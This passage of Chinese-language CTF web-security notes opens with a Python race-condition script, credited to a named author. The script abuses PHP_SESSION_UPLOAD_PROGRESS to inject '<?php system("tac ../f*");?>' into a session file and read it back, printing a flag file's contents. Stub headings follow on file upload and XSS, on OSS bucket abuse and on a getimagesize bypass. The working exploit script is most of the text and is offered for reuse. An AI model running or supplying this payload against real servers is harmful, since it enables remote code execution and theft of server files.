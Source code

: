 ```python
# 羽师傅(yu22x)脚本
import requests
import threading
session=requests.session()
sess='xxxx'
url1="url"
url2="url/upload"
data1={
	'PHP_SESSION_UPLOAD_PROGRESS':'<?php system("tac ../f*");?>'
}
file={
	'file':'xxxx'
}
cookies={
	'PHPSESSID': sess
}

def write():
	while True:
		r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
	while True:
		r = session.get(url2)
		if 'flag' in r.text:
			print(r.text)
			
threads = [threading.Thread(target=write),
       threading.Thread(target=read)]
for t in threads:
	t.start()
```



## 文件上传与xss

### oss存储桶利用

> 待补充

[OSS对象存储上传解析漏洞](https://xz.aliyun.com/t/2078)

### 配置文件xss

pass

### 图片上传

> https://xz.aliyun.com/t/2657#toc-11

#### getimagesize绕过
